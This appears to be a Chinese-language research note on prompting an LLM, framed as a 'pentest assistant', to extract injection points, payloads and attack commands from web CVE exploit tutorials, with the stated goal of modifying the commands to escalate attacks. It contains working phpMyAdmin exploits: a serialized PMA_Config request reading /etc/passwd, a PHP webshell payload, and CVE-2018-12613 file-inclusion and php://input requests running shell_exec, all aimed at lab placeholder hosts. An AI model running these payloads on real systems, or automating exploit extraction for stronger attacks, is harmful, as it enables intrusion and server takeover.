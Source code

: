 # 250716

研究的目标是要从一个网页教程中总结出三个关键信息，然后基于这三个信息做进一步的渗透利用，如修改attack_command，执行更高危的攻击操作

- input：一个/多个网页CVE漏洞的exploit教程
- output

  - exploit:  能够触发或利用漏洞的注入点
  - payloads：包含命令注入的攻击脚本，如木马程序、reverse shell
  - attack_command：真实想在目标靶机执行的操作
- example 1

  ```http
  POST /scripts/setup.php HTTP/1.1
  Host: your-ip:8080
  Accept-Encoding: gzip, deflate
  Accept: */*
  Accept-Language: en
  User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
  Connection: close
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 80

  action=test&configuration=O:10:"PMA_Config":1:{s:6:"source",s:11:"/etc/passwd";}

  ```

  ```json
  {
    "exploits": [
      "POST /scripts/setup.php?action=test",
      "POST body parameter: configuration=<serialized PMA_Config>"
    ],
    "payloads": [
      "O:10:\"PMA_Config\":1:{s:6:\"source\";s:11:\"/etc/passwd\";}",
      "O:10:\"PMA_Config\":1:{s:6:\"source\";s:XX:\"<?php system($_GET['cmd']); ?>\";}"
    ],
    "attack_commands": [
      "/etc/passwd",
      "execute system($_GET['cmd']) (RCE)"
    ]
  }

  ```
- example 2
  link: [https://github.com/vulhub/vulhub/blob/master/phpmyadmin/CVE-2018-12613/README.zh-cn.md]()

  ```json
  {
    "exploits": [
      "GET /index.php?target=db_sql.php%253f/../../../../../../etc/passwd",
      "GET /index.php?target=db_sql.php?/../../../../../../tmp/sess_<session_id>"
    ],
    "payloads": [
      "select '<?php phpinfo()?>'",
      "<?php phpinfo()?> injected into session file"
    ],
    "attack_commands": [
      "read /etc/passwd",
      "execute phpinfo() via session inclusion"
    ]
  }

  ```

## prompt

- 参考论文：Structured Chain-of-Thought Prompting for Code Generation ，TOSEM 2025

  ![example](image/250716/1752674818748.png)
- prompt

  ```
  You are a helpful pentest assistant. Please carefully read this web-based tutorial, understand how it triggers or exploits the vulnerability through injection points, and organize the tutorial content in a tree structure format. Make it simple and easy to read for beginners.

  Please note:
  - The task descriptions in the tree structure should be as concise as possible.
  - Necessary details should be written in natural language.
  - Specific attack commands should be marked using bullet points (-) in markdown format.
  - All outputs should be in Markdown format.

  Web tutorial url: {URL}
  Output Example: Pentest Task Tree
  1. Port scanning
    - nmap -sC -sV {port} {target_ip}
    - Services are FTP, SSH, and Web Service.
  2.Perform the testing
    2.1 Test FTP Service
      2.1.1 Test Anonymous Login
      2.1.1.1 Test Anonymous Upload
    2.2 Test SSH Service 
      2.2.1 Brute-force 
    2.3 Test Web Service 
      2.3.1 Directory Enumeration
          2.3.1.1 Find hidden admin
          2.3.2 Injection Identification
  ```
- output

  ```markdown
  # Pentest Task Tree – CVE-2018-12613 (phpMyAdmin LFI → RCE)

  ## 1. Prepare Environment
  ### 1.1 Download and launch vulnerable phpMyAdmin
  - `docker-compose up -d`

  ### 1.2 Access phpMyAdmin service
  - Open browser at `http://your-ip:8080`

  ## 2. Understand the Vulnerability
  ### 2.1 Version affected
  - phpMyAdmin ≤ 4.8.1 has an improper input validation on the `target` parameter in `index.php`.

  ### 2.2 Type of vulnerability
  Allows **Local File Inclusion (LFI)**, including special streams like `php://input`.

  ## 3. Confirm Local File Inclusion (LFI)
  ### 3.1 Attempt to include sensitive file
  - `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../../etc/passwd`

  ### 3.2 Expected result
  Page should display contents of `/etc/passwd`.

  ## 4. Achieve Remote Code Execution (RCE)
  ### 4.1 Use `php://input` for payload injection
  Craft a URL to include the `php://input` stream:
  - `http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../../php://input`

  ### 4.2 Send POST payload with PHP code
  Send a POST request that includes PHP code to execute a system command:
  - 
    ```http
    POST /index.php?target=db_sql.php%253f/../../../../../../../../../php://input HTTP/1.1
    Host: your-ip:8080
    Content-Type: application/x-www-form-urlencoded
    Content-Length: 31

    <?php echo shell_exec("id"); ?>
  ```
